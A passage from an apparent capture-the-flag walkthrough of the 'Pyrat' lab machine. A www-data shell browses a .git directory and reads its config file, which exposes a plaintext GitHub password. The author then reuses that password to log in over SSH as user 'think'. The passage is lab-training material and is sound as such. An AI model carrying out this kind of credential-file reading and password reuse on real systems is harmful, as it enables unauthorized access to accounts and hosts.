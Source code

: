 ```terminal
drwxr-xr-x  3 root  root  4096 Jun 21  2023 .
drwxr-xr-x 18 root  root  4096 Dec 22  2023 ..
drwxrwxr-x  3 think think 4096 Jun 21  2023 dev
www-data@Pyrat:/opt$ cd de
cd dev/
www-data@Pyrat:/opt/dev$ ls -la
ls -la
total 12
drwxrwxr-x 3 think think 4096 Jun 21  2023 .
drwxr-xr-x 3 root  root  4096 Jun 21  2023 ..
drwxrwxr-x 8 think think 4096 Jun 21  2023 .git
www-data@Pyrat:/opt/dev$ cd .git
cd .git
www-data@Pyrat:/opt/dev/.git$ ls -la
ls -la
total 52
drwxrwxr-x 8 think think 4096 Jun 21  2023 .
drwxrwxr-x 3 think think 4096 Jun 21  2023 ..
drwxrwxr-x 2 think think 4096 Jun 21  2023 branches
-rw-rw-r-- 1 think think   21 Jun 21  2023 COMMIT_EDITMSG
-rw-rw-r-- 1 think think  296 Jun 21  2023 config
-rw-rw-r-- 1 think think   73 Jun 21  2023 description
-rw-rw-r-- 1 think think   23 Jun 21  2023 HEAD
drwxrwxr-x 2 think think 4096 Jun 21  2023 hooks
-rw-rw-r-- 1 think think  145 Jun 21  2023 index
drwxrwxr-x 2 think think 4096 Jun 21  2023 info
drwxrwxr-x 3 think think 4096 Jun 21  2023 logs
drwxrwxr-x 7 think think 4096 Jun 21  2023 objects
drwxrwxr-x 4 think think 4096 Jun 21  2023 refs
www-data@Pyrat:/opt/dev/.git$ cat con
cat config 
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = _TH1NKINGPirate$_
```
there we go, let's use this password to connect to ssh as the user Think

```terminal
ssh think@10.10.100.37         
The authenticity of host '10.10.100.37 (10.10.100.37)' can't be established.
ED25519 key fingerprint is SHA256:Ndgax/DOZA6JS00F3afY6VbwjVhV2fg5OAMP9TqPAOs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.100.37' (ED25519) to the list of known hosts.
think@10.10.100.37's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 06 Apr 2025 02:38:48 PM UTC
```